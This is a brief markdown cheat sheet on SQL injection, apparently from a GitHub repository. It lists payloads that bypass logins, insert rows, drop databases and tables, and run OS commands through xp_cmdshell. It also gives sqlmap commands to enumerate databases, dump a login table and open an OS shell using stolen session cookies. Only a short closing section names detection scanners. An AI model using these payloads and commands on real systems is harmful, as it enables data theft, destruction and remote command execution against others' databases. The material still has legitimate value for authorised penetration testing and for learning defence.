 # SQL Injection

### Basic Commands

> batman' or 1=1 --

> batman'; insert into login values ('bat', 'man'); --

> batman'; create database batman; --

> batman'; drop database batman; -- 

> batman'; drop table batwomen; --

> batman'; exec master..xp_cmdshell 'ping google.com -l 50 -t'; --

### SQL Map
- Cookies can be fetcheed via Inspect Element --> Console --> document.cookie
- Copy the cookies
- Run SQL Map and type the following command

```
sqlmap -u <url> --cookies <cookies> --dbs
```

- Once the Database are found, fetch the tables.

```
sqlmap -u <url> --cookies <cookies> -D batman --tables
```

- Dumping the data from tables
```
sqlmap -u <url> --cookies -D batman -T login --dump
```

### Getting OS Shell
OS shell gives you an interactive shell to work with the DB and OS.

```
sqlmap -u <url> --cookies --os-shell
```

# Detecting SQL Injection

### 1. DSSS

```
python3 dsss.py -u <url> --cookies <cookies>
```

#### 2. OWASP ZAP

```
OWASP ZAP Automated Scanner - Active Scanner
```